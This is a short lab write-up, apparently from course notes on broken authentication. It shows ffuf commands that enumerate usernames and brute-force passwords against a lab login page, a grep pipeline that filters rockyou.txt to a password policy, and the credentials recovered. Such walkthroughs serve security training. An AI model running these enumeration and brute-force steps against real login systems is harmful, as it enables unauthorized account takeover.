

# Skills Assessment

```bash
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.60.36:44074/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=<REDACTED_SESSION>" -d "username=FUZZ&password=test" -fr "Unknown username or password."
```

gladys

Password does not meet our password policy:

- Contains at least one digit
- Contains at least one lower-case character
- Contains at least one upper-case character
- Contains NO special characters
- Is exactly 12 characters long

```bash
grep '[[:digit:]]' /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt \
  | grep '[[:lower:]]' \
  | grep '[[:upper:]]' \
  | grep -E '^[[:alnum:]]{12}$' > custom_wordlist.txt
```

```bash
ffuf -w custom_wordlist.txt -u http://94.237.60.36:44074/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=<REDACTED_SESSION>" -d "username=gladys&password=FUZZ" -fr "Invalid credentials."
```

dWinaldasD13

http://94.237.60.36:44074/profile.php



## Material relacionado

- [Authentication Bypass](../../../Web-Security/Authentication/authentication-bypass.md)
- [Brute-Force Attacks](../../../Web-Security/Authentication/brute-force-attacks.md)
- [Session Tokens](../../../Web-Security/Authentication/session-tokens.md)


## Procedencia

| Repositorio | Archivo original | Commit de origen |
| --- | --- | --- |
| CBBH | 14- Broken Authentication/4 - Skills Assessment.md | 284a0a42d23a00f2b47b7460371a517a14cb6261 |

Se han sustituido valores literales de autenticación o direcciones de correo por marcadores. Los detalles sin valores están en [el registro de redacciones](../../../Resources/Audit/redactions.csv).

[Índice de categoría](../../README.md) · [Inicio](../../../README.md)
